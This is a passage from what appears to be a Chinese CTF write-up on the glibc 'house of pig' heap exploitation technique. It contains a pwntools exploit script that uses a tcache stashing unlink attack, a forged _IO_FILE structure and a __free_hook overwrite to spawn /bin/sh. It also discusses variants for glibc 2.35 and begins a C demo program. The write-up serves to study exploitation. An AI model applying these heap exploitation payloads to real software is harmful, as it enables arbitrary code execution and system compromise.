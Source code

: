 ```python
edit(8, b'0' * 0x40 + p64(heap_address + 0x410) + p64(__free_hook - 0x28) + b'\n')
change_role(2)
add(0x230)   # daddy index = 2
change_role(2)
add(0x430)   # daddy index = 3
change_role(1)
edit(7, p64(heap_address + 0x19E0) * 2 + b'\n')
change_role(2)
add(0xA0)   # daddy index = 4, trigger tcache stashing unlink attack

fake_IO_FILE_complete = p64(0) * 2  # _IO_read_end (0x10), _IO_read_base (0x18)
fake_IO_FILE_complete += p64(1)     # _IO_write_base (0x20)
fake_IO_FILE_complete += p64(0xFFFF_FFFF_FFFF) # _IO_write_ptr (0x28)
fake_IO_FILE_complete += p64(0)     # _IO_write_end (0x30)
fake_IO_FILE_complete += p64(heap_address + 0x19E0 + 0xD0)  # _IO_buf_base (0x38)
fake_IO_FILE_complete += p64(heap_address + 0x19E0 + 0xD0 + 30)  # _IO_buf_end (0x40)
fake_IO_FILE_complete = fake_IO_FILE_complete.ljust(0xB0, b'\x00')
fake_IO_FILE_complete += p64(0)     # _mode (0xB0)
fake_IO_FILE_complete = fake_IO_FILE_complete.ljust(0xC0, b'\x00')
fake_IO_FILE_complete += b'/bin/sh\x00'
fake_IO_FILE_complete += p64(libc_base + 0x1E9560)
payload = fake_IO_FILE_complete + b'/bin/sh\x00' + 2 * p64(system)
io.sendafter(b'Gift:', payload)

io.sendlineafter(b'Choice: ', b'5')
io.sendlineafter(b'user:\n', b'')

io.interactive()
```

由此，我们就完全解决了house of pig这个问题，但不难发现，这种利用方式需要使用``__free_hook``，而这个钩子在更高版本的libc中是不存在的。那么在2.35这样的libc中，我们又应该如何进行利用呢？

其实可以发现，house of pig调用了``_IO_str_overflow``这个函数，如果我们将``vtable``也进行伪造，就相当于可以执行任意函数。这个函数的第一个参数就是伪造的``FILE``结构体自身，如果在结构体开头写入字符串``/bin/sh``，然后通过伪造的``vtable``调用``system``函数，也能够实现同样的功能，再不济要是用了沙箱，也还可以用传统手法——``setcontext``绕一遍，不过那样的话，题目的流程就太长了。

# 4. glibc 2.31版本house of pig演示程序
下面是笔者写的演示程序，如有错误请联系笔者指正。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define BLACK       "30"
#define RED         "31"
#define GREEN       "32"
#define YELLOW      "33"
#define BLUE        "34"
#define PURPLE      "35"
#define GREEN_DARK  "36"
#define WHITE       "37"

#define UNDEFINED   "-1"
#define HIGHLIGHT   "1"
#define UNDERLINE   "4"
#define SPARK       "5"

#define STR_END      "\033[0m"

void printf_color(char* color, char* effect, char* string){
    char buffer[0x1000] = {0};
```